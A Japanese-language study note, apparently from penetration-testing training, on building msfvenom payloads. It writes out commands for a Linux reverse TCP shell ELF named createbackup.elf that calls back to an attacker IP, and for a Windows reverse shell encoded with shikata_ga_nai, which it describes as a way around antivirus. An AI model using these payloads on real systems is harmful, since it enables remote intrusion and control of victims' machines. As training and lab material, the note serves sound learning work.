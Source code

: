 
### ペイロードの作成
エンコードなし
```sh
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf
```

| **オプション/要素**                     | **役割・説明**                                                                 |
| -------------------------------- | ------------------------------------------------------------------------- |
| `-p linux/x64/shell_reverse_tcp` | ペイロードの指定 : Linux 64ビット向けの“reverse TCP shell”を生成。実行すると、攻撃者側に逆接続してシェルを提供する。 |
| `LHOST=10.10.14.113`             | 攻撃者のIPアドレス: ペイロードが確立しようとする攻撃者（こちら側）のIPアドレス。                               |
| `LPORT=443`                      | 攻撃者のポート番号: ペイロードが接続を試みるポート番号。ここでは443を使用。                                  |
| `-f elf`                         | 出力ファイル形式の指定 : 生成するファイルをLinux向けのELF形式にする。                                  |
| `> createbackup.elf`             | 標準出力のリダイレクト : 作成されたバイナリを`createbackup.elf`として保存する。                        |

### エンコード
エンコーダの役割
- 異なるアーキテクチャへの対応
	- ペイロードを異なるプロセッサアーキテクチャ（x64、x86、SPARC、PPC、MIPSなど）やOS上で動作させるために変換する役割を担っています。
- アンチウイルス（AV）回避
- ペイロード内に含まれる「bad characters」と呼ばれる16進数のオペコードを除去したり、ペイロードを異なるフォーマットにエンコードすることで、アンチウイルスによる検出を回避しやすくします。
	- ※ただし、IPS/IDSメーカーが保護ソフトを進化させたため、AV回避専用のエンコーダーの効果は時間とともに薄れてきています。

Shikata Ga Nai (SGN) について
- 現在最も利用されているエンコーディング方式の一つであるSGNは、かつては検出が非常に困難なため、SGNでエンコードされたペイロードはほぼ検出不可能とされていました。
- 名前「仕方がない」は「どうしようもない」という意味で、数年前にはその通りに感じられたでしょう。しかし、現代ではSGNだけでは万能ではなく、保護システムを回避するために他の手法も検討されています。

shikata_ga_naiでエンコード
```shell-session
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai
```

| オプション                          | 説明                                        |
| ------------------------------ | ----------------------------------------- |
| `-a x86`                       | アーキテクチャを x86 に指定                          |
| `--platform windows`           | プラットフォームを Windows に指定                     |
| `-p windows/shell/reverse_tcp` | ペイロードとして Windows のシェル（リバースTCP接続）を選択       |
| `LHOST=127.0.0.1`              | 攻撃者側（リスナー）のIPアドレスを 127.0.0.1 に設定          |
| `LPORT=4444`                   | 攻撃者側（リスナー）のポート番号を 4444 に設定                |
| `-b "\x00"`                    | ペイロードから除外するバッドキャラクターとして NULL を指定          |
| `-f perl`                      | 出力形式を Perl スクリプト形式に指定                     |
| `-e x86/shikata_ga_nai`        | エンコーダーとして x86/shikata_ga_nai を使用（エンコード処理） |
